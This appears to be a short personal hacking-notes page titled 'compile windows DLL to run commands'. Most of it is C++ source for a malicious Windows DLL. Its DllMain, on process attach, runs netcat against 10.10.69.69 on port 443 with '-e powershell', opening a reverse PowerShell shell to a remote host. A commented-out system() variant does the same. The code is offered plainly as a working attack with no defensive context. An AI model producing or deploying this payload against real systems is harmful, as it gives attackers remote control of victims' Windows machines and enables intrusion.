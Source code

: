 # compile windows DLL to run commands DLL code
```cpp
#include <windows.h>

BOOL WINAPI DllMain(
  HINSTANCE hinstDLL,  // handle to DLL module
  DWORD fdwReason,     // reason for calling function
  LPVOID lpReserved )  // reserved
{
  switch( fdwReason ) // Perform actions based on the reason for calling.
  {
    case DLL_PROCESS_ATTACH: // Initialize once for each new process.  Return FALSE to fail DLL load.
      WinExec("c:\\windows\\tasks\\nc.exe 10.10.69.69 443 -e powershell", 0);
      //system("c:\\windows\\tasks\\nc.exe 10.10.69.69 443 -e powershell");
      break;

    case DLL_THREAD_ATTACH: // Do thread-specific initialization.
    case DLL_THREAD_DETACH: // Do thread-specific cleanup.
    case DLL_PROCESS_DETACH: // Perform any necessary cleanup.
      break;
  }
  return TRUE;  // Successful DLL_PROCESS_ATTACH.
}
```

# Related

- [20221003151106](/zet/20221003151106/README.md) compile windows DLL to run commands
- [20221003151104](/zet/20221003151104/README.md) compile windows DLL to run commands DLL code building with mingw
- ~/kb/hacking/windows/dll-to-run-commands.md

Tags:

    #assorted #command #hacking #windows #dll
